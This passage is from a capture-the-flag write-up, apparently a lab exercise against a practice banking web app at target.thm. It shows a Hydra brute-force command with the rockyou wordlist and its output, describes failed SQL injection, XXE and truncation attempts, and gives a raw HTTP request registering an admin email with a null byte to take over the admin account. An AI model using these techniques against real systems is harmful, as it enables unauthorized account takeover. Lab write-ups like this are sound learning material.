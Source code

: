 I kept digging in the code, only to realize it didn't do anything. 

I used the emails from the code to try and brute force the admin page login.

```bash
$ cat users.txt 
support@bank.a
contact@bank.a
cyber@bank.a
admins@bank.a
sam@bank.a
admin0@bank.a
super_user@bank.a
admin@bank.a
control_admin@bank.a
it_admin@bank.a


$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -f -u -e snr -t64 -m '/admin.php:uname=^USER^&password=^PASS^&btn=Submit:bad' target.thm http-post-form
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-22 06:12:40
[DATA] max 64 tasks per 1 server, overall 64 tasks, 143444020 login tries (l:10/p:14344402), ~2241313 tries per task
[DATA] attacking http-post-form://target.thm:80/admin.php:uname=^USER^&password=^PASS^&btn=Submit:bad
[STATUS] 2897.00 tries/min, 2897 tries in 00:01h, 143441123 to do in 825:14h, 64 active
[STATUS] 3063.67 tries/min, 9191 tries in 00:03h, 143434829 to do in 780:19h, 64 active
[STATUS] 3110.57 tries/min, 21774 tries in 00:07h, 143422246 to do in 768:29h, 64 active
```

I kept Hydra running for hours, but it did not find any valid password.

## Admin Page

I was back in the admin page. I spent a lot of time trying to break it. I tried to use SQL injection. I created a user, but it could not access most of the pages. 

The pages that where for admins only where rendered, but sent back with an alert and a header to redirect use out of the application. So I looked at the code in Burp and saw that one of them used XML. I immediately thought it might have an XXE vulnerability. I tried to block the redirect and post the XML. But the session appeared to be closed, so it did not work.

I tried creating an admin user with the email `admin@bank.a`, but adding lots of spaces at the end. Hoping that MySQL might truncate it and then I would have an admin user. But that failed to. 

At some point, I tried creating the admin user with a null byte at the end. 

```html
POST /register.php HTTP/1.1
Host: target.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Origin: http://target.thm
Connection: close
Referer: http://target.thm/register.php
Cookie: PHPSESSID=bfaakggtf5869ke4ie1ktuqgt7
Upgrade-Insecure-Requests: 1

uname=admin%40bank.a%00&bank=a&password=admin&btn=Register+me%21
```